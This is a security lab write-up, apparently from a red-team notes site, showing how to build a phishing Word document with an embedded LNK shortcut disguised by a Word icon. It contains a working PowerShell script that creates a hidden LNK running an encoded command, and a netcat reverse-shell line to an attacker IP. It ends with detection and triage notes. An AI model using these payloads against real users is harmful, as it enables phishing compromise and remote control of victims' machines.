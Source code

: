 ```yaml
---
description: 'Phishing, Initial Access'
---
```


# Phishing: OLE + LNK

This lab explores a popular phishing technique where attackers embed .lnk files and camouflage them with Ms Word office icon in .doc files to deceive victims to click the embedded file. Once clicked, the embedded file executes the malicious payload.

## Weaponization

Creating an .LNK file that will trigger the payload once executed:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Powershell payload will trigger a rudimentary NC reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the above powershell script is executed, an `.LNK` shortcut is created:

![](../.gitbook/assets/ole-lnk-shortcut-created.png)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](../.gitbook/assets/ole-good-document.png)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](../.gitbook/assets/ole-insert-ole-object-with-icon.png)

![](../.gitbook/assets/ole-change-icon.png)

Point the package to the .lnk file containing the payload:

![](../.gitbook/assets/ole-payload.png)

Final result:

![](../.gitbook/assets/ole-weaponized.png)

## Execution

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](../.gitbook/assets/ole-execution.png)

Confirms execution - note how the reverse shell came back to the attacker:

![](../.gitbook/assets/ole-execution2.png)

## Observations

After the payload is triggered, the process ancestry looks as expected - powershell gets spawned by winword, cmd is spawned by powershell, etc.:

![](../.gitbook/assets/ole-ancestry1.png)

Soon after, the powershell gets killed and cmd.exe becomes an orphan:

![](../.gitbook/assets/ole-ancestry2.png)

Like in [T1137: Phishing - Office Macros](t1137-office-vba-macros.md), you can use rudimentary tools on your Windows workstation to quickly triage the document.   
First off, rename the file to a .zip extension and unzip it. Then you can navigate to `word\embeddings` and there you will see an `oleObject.bin` file that contains the malicious `.lnk`:

![](../.gitbook/assets/ole-embedded-bin.png)

Then you can do a simple `strings` or hexdump against the file and you should immediately see signs of something that should raise your eyebrow\(s\):

```csharp
hexdump.exe -C .\oleObject1.bin
```

![](../.gitbook/assets/ole-hexdump.png)

{% file src="../.gitbook/assets/ole.ps1" caption="OLE+LNK Powershell Script" %}

{% file src="../.gitbook/assets/invoice-fintech-0900541.lnk" caption="Invoice-FinTech-0900541.lnk" %}

{% file src="../.gitbook/assets/completely-not-a-scam-ole+lnk.docx" caption="Phishing: OLE+Lnk MS Word Doc Package" %}

[https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf](https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf)

